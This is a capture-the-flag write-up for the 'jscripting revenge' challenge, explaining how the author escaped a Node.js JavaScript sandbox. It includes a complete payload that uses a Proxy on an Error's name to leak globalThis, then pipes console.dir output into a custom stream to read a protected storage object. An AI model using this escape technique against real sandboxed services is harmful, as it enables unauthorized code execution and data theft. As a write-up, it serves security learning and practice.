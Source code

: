 # jscripting revenge

huge huge cheese

## problem

see [web_jscripting-revenge.7z](./web_jscripting-revenge.7z)

please read jscripting writeup before this

same as jscripting but there is some weird stuff

## solution

this time, there is no changing globalThis to have `globalThis.module.require = require` or whatever. however, the top of the worker.js file had some bytecode run first

```js
const { workerData, parentPort } = require('worker_threads');

require("./worker_globals.js");
const { runBytecodeFile } = require("./bytecode.js")

globalThis.require = require;

runBytecodeFile("./utils.jsc")();
```

i don't exactly know what it did since it was javascript bytecode. basically, i blackboxed this

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/35f74cfd-c660-464a-b016-3f7828563cbb)

we cant run our exploit from before

we can see what keys `globalThis` still has left by using `Object.keys(globalThis)`

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/7f1e9372-2cdb-4e20-9ca6-2357177e331e)

we have a `secureRequire`. hmmmmmm

so i tried running `secureRequire` with all of the module names that were whitelisted from the previous challenge, and all of them are allowed except for `util`.

essentially, the whitelist was:

```js
    const whitelist = [
        "crypto",
        "path",
        "buffer",
        "worker_threads",
        "stream",
        "string_decoder",
        "console",
        "perf_hooks"
    ];
```

one interesting thing i noticed was that the javascript console let me see the proxy object even though i cant read it from js code

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/3ad3b6b5-db3c-4c19-b355-d9cfe11bd15f)

i took a look at the `console` module in node.js docs to try to find a similar thing to just use debug functions on the flag

anyways, we have [console.dir](https://nodejs.org/docs/latest/api/console.html#consoledirobj-options)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/dec5735a-c5f7-4150-8490-7d46fc20974f)

hey, our old friend `util.inspect`! however, it prints this to stdout, which we cant read.

the solution is to create our own Console object and then use `.dir` on it to get it to a stream we control.

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/f5f8759c-ca01-4710-8db7-b3dada5a78f8)

we can do this because `secureRequire('stream')` is allowed, so we can just create streams as we want

here is the idea:
```js
let q = e.secureRequire;
let total = "";
let readable = q("stream").Readable({read(size) {}});
let writable = q("stream").Writable({write(chunk, encoding, callback) {total += chunk.toString(); callback();}});
readable.pipe(writable);
readable.on('data', chunk => {
  total += chunk.toString();
});
new q("console").Console(writable).dir(e.storage);
return total;
```

here, `e` is the `globalThis` object.

putting this into our payload template:

```js
(() => {const err = new Error();err.name = {toString: new Proxy(() => "", {apply(target, thiz, args) {const process = args.constructor.constructor("return globalThis")();throw process;},}),};try{err.stack;}catch(e){    
  let q = e.secureRequire;
  let total = "";
  let readable = q("stream").Readable({read(size) {}});
  let writable = q("stream").Writable({write(chunk, encoding, callback) {total += chunk.toString(); callback();}});
  readable.pipe(writable);
  readable.on('data', chunk => {  total += chunk.toString();});
  new q("console").Console(writable).dir(e.storage);
  return [...total];     
}})()
```

and we get the flag

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/1a3c3e54-189a-4bb8-913a-d44f113db54a)

i think the intended was to rev the `jsc` file or whatever but idk how to do that so oh well

